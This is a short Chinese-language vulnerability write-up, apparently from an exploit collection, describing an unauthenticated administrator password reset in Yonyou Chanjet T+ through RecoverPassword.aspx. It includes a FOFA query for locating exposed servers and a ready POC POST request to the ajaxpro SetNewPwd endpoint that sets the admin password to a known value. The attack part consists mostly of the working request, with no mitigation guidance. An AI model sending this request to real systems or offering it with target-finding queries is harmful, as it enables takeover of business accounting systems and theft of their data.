


# 用友 畅捷通T+ RecoverPassword.aspx 管理员密码修改漏洞

## 漏洞描述

用友 畅捷通T+ RecoverPassword.aspx 存在未授权管理员密码修改漏洞，攻击者可以通过漏洞修改管理员账号密码登录后台

## 漏洞影响

```
用友 畅捷通T+
```

## FOFA

```
app="畅捷通-TPlus"
```

## 漏洞复现

登录页面



验证POC, 重置账号密码为 `admin/123qwe`

```
POST /tplus/ajaxpro/RecoverPassword,App_Web_recoverpassword.aspx.cdcab7d2.ashx?method=SetNewPwd

{"pwdNew":"46f94c8de14fb36680850768ff1b7f2a"}
```

